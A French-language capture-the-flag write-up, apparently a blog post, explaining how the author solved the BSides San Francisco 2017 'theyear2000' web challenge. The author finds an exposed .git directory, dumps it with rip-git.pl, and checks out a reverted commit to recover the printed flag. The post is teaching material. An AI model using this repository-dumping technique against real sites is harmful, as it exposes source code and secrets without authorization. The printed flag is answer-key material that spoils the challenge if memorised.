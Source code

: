 Challenge de web présenté lors du CTF online BSides San Francisco 2017.

<h2>Analyse du challenge</h2>
On a un lien qui me mène à ce site :

<img class="alignnone size-full wp-image-599" src="Bsides-HomePage.png" alt="" width="2496" height="1224" />

En regardant ces outils, on peut se dire que le html ne nous apportera rien ni notepad++, cherchons du côté de git...

En mettant dans l'url <strong>/.git </strong>, je tombe sur une erreur du type :"Forbidden". et là on se dit qu'on est sur la bonne voie.

Tapons <strong>.git/HEAD</strong>
Bingo, on a :
<pre>ref: refs/heads/master</pre>
<h2>Répertoire GIT</h2>
Nous allons utiliser ce script pour récupérer le répertoire GIT :

<a href="https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl">https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl</a>

Puis nous faisons ces commandes :
<pre>mkdir foo
cd foo
./rip-git.pl -v -u http://theyear2000.ctf.bsidessf.net/.git/</pre>
A partir des logs ( http://theyear2000.ctf.bsidessf.net/<strong>.git/logs/HEAD</strong> )

On a ces commits :
<pre>0000000000000000000000000000000000000000 e039a6684f53e818926d3f62efd25217b25fc97e Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853661 +0000	commit (initial): First commit on my website
e039a6684f53e818926d3f62efd25217b25fc97e 9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0 Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853667 +0000	commit: Fixed a spelling error
9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0 e039a6684f53e818926d3f62efd25217b25fc97e Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853668 +0000	reset: moving to HEAD~1
e039a6684f53e818926d3f62efd25217b25fc97e 4eec6b9c6e464c35fff1efb8444dd0ac1ae67b30 Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853672 +0000	commit: Wooops, didn't want to commit that. Rebased.</pre>
C'est la deuxième et la dernière qui nous intéressent le plus puisqu'il y a une "error" et le message "Wooops...".
<h2>Récupération du flag</h2>
Commençons par le premier commit intéressant :
<pre><strong>git checkout 9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0</strong></pre>
Bingo, le flag est dans le fichier index :

<img class="alignnone size-full wp-image-600" src="Bsides-Solutions.png" alt="" width="488" height="234" />

<strong>FLAG:what_is_HEAD_may_never_die</strong>

(En regardant dans le deuxième commit, il n'y avait rien c'était pour nous envoyer vers ce commit et tomber sur le message "Wooops")